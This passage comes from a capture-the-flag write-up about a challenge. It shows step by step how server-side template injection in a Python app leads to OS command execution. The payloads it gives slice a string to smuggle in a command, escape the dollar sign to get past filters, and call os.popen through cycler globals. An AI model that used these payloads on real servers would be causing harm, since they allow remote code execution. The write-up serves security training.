 ![](dojo31/img/ywh-7.png)
But this is a dict object, so we need to transform it to a string. Fortunately, we can use the built-in method `__str__()`:
`${[].__class__.__base__.__subclasses__()[-2].reviews.__str__()}`.
And once we have a string object, we can extract any substring using python built-in slicing.
For example  if `input = "abenvcdf"` , then`input[2:5] = "env"`.

See what, I'm doing here ? If we append any string outside the dynamic marker in our input, it will not impact the code execution can still be retrieved and extracted in the reviews string.

For example the payload : 
`${[].__class__.__base__.__subclasses__()[-2].reviews.__str__()[-7:-5]}id`
Which give us once encoded properly to escape filters :
`\N{DOLLAR SIGN}{[].__class__.__base__.__subclasses__()[-2].reviews.__str__()[-7:-5]}id`
Will extract only the substring `id` from the review. We need to start 5 char from the end because the HTML escaped string create some characters at the end.

The proof in action :
![](dojo31/img/ywh-8.png)

Now that it work, we can use this with the previous OS command injection to try to execute a command on the server. Will will use the following payload :
`${cycler.__init__.__globals__.os.popen([].__class__.__base__.__subclasses__()[-2].reviews.__str__()[-7:-5]).read()}id`
Which give us once encoded properly to escape filters :
`\N{DOLLAR SIGN}{cycler.__init__.__globals__.os.popen([].__class__.__base__.__subclasses__()[-2].reviews.__str__()[-7:-5]).read()}id` :
![](dojo31/img/ywh-9.png)
And it work  ! We got a successful OS command injection on the server !
## PoC 

